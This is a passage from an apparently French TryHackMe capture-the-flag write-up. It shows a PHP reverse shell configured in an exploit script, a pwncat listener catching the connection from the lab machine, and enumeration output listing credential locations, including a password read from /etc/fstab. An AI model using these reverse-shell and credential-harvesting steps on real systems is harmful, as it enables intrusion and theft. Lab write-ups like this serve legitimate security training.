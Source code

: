 On configure rms_exploit.py
On configure notre reverse shell en php.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo pwncat -l 1234
[14:31:07] Welcome to pwncat 🐈! 
```

On écoute le port 1234 pour avoir un shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python rms_exploit.py 
```

On exécute l'exploit.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pwncat_listen 1234
sudo pwncat -l 1234
[14:31:07] Welcome to pwncat 🐈!                                                                                                                                                                                               __main__.py:153
[14:31:11] received connection from 10.10.167.71:51210                                                                                                                                                                              bind.py:76
[14:31:12] 0.0.0.0:1234: normalizing shell path                                                                                                                                                                                 manager.py:504
           10.10.167.71:51210: registered new host w/ db                                                                                                                                                                        manager.py:504
(local) pwncat$ run enumerate
...
creds.password facts
  - Potential Password at /var/www/html/rms/admin/login-exec.php:33
  - Potential Password at /var/www/html/rms/admin/login-exec.php:40
  - Potential Password at /var/www/html/rms/admin/login-exec.php:54
  - Potential Password at /var/www/html/rms/admin/update-exec.php:23
  - Potential Password at /var/www/html/rms/admin/update-exec.php:24
  - Potential Password at /var/www/html/rms/admin/update-exec.php:25
  - Potential Password at /var/www/html/rms/admin/update-exec.php:34
  - Potential Password at /var/www/html/rms/login-exec.php:34
  - Potential Password at /var/www/html/rms/password-reset.php:49
  - Potential Password at /var/www/html/rms/register-exec.php:36
  - Potential Password at /var/www/html/rms/register-exec.php:37
  - Potential Password at /var/www/html/rms/update-exec.php:22
  - Potential Password at /var/www/html/rms/update-exec.php:23
  - Potential Password at /var/www/html/rms/update-exec.php:24
  - Potential Password 'FrobjoodAdkoonceanJa,domain=localdomain,soft\t0 0' (/etc/fstab:12)
  - Potential Password at /etc/pki/tls/openssl.cnf:114
  - Potential Password at /etc/pki/tls/openssl.cnf:115
  - Potential Password at /etc/pki/tls/openssl.cnf:159
  - Potential Password '<secret>' (/etc/logrotate.d/mariadb:13)
  - Potential Password at /etc/libuser.conf:31
  - Potential Password at /etc/libuser.conf:37
  - Potential Password at /etc/libuser.conf:51
  - Potential Password at /etc/php.ini:1047
  - Potential Password at /etc/php.ini:1108
  - Potential Password 'FrobjoodAdkoonceanJa,domain=localdomain,soft  0 0' (/etc/fstab.orig:12)
```
